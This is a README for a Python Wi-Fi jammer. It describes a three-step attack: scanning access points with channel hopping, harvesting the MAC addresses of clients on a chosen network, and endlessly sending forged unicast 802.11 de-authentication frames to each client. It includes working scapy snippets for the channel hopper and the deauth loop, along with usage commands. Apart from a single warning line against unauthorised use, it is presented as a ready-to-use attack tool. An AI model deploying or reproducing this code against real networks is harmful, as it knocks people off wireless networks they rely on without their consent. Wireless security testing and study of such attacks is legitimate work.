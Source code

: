 # 802.11 Wifi Jammer
**Infinitely disconnects clients one by one from a 802.11 network**

**This program does not send a broadcast de-auth packet using the networks bssid as it is REALLY INEFFECTIVE and rarely works. INSTEAD this program scans the selected network for clients and adds those clients into a list, then infinitely loops through the clients list to send UNICAST DE-AUTH packets to specified clients which in turn in very effective**


**! <ins>DO NOT USE ON A NETWORK WITHOUT PRIOR PERMISSION</ins> !**

Prerequisites
-------------

* Wireless adapter supporting monitor mode and packet injection
* Python with ***scapy*** and ***colorama*** installed

Usage 
------
``` shell
python jammer.py <interface> <noise_filter_flag>
```
* The interface mentioned should have monitor mode already ON.
* The noise_filter_flag could be either 1 (True : noise filter is on) or 0 (False: noise filter is off)
  
Example:
``` shell
python jammer.py wlan0mon 1
```
How To Use
-----------

**The programs works in a three step process:**

### 1) Scanning APs:

* sniffs beacons frames using scapy on the specified interface
* channel hopping is done through a hopper thread which terminates through a daemon boolean flag
``` shell
def channelHopper():	
    while True: 
        channel = random.choice(channels)
        os.system("iw dev wlan0 set channel {}".format(channel))
        with lock:	
            global CURRENT_CHANNEL
            CURRENT_CHANNEL = channel
        if not(daemonFlag):
        	break 
        time.sleep(0.2)
```
### 2) Scanning Selected Network For Clients:
**This involves switching over to the channel of the selected network and extracting for clients bssid using these radio packets:** 
* Qos Frame
* Qos with CCMP Frame
* Control Block Frame
* Null Frame

This is achieved using the **clientFilter** function:

https://github.com/ary27x/WIFI_JAMMER/blob/3aaf282f24d69eee91449ad566a4b627701ea4e0/jammer.py#L130

(Let this run for a couple of minutes)

### 3) Sending De-Authentication Packets:

**Finally the program infinitely loops through the clients list and sends forged de-authentication packet to each through layer 2**

``` shell
while True:
    for client in clients:
        packet = RadioTap()/Dot11(addr1 = client, addr2 = MAC , addr3 = MAC)/Dot11Deauth()
        sendp(packet , iface = IFACE)
```





  




